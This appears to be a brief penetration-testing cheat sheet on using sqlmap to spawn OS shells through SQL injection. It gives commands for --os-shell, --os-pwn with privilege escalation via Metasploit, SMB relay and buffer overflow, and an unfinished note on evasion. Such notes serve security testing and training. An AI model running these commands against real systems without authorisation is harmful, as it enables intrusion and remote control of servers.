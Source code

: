 # Spawn Interactive Shell

Search Tag(s): #sql-injection #sqlmap #webapp-pentesting

- These requires **SELECT** and **FILE** privileges. Some needed a webroot directory except `--os-smbrelay`

`$ sqlmap --os-shell [--web-root=/remote/path/to/webroot_directory]`

`$ sqlmap --os-pwn [--priv-esc] [--web-root=/remote/path/to/webroot_directory] [--msf-path=/path/to/metasploit_directory/]`

`$ sudo sqlmap --os-smbrelay [--msf-path=/path/to/metasploit_directory/]`

- This requires **EXECUTE** privilege

`$ sqlmap --os-bof`

#### Evasion

TODO: Check the `cloak.py` feature that needs evasion for sqlmap

`$ cd `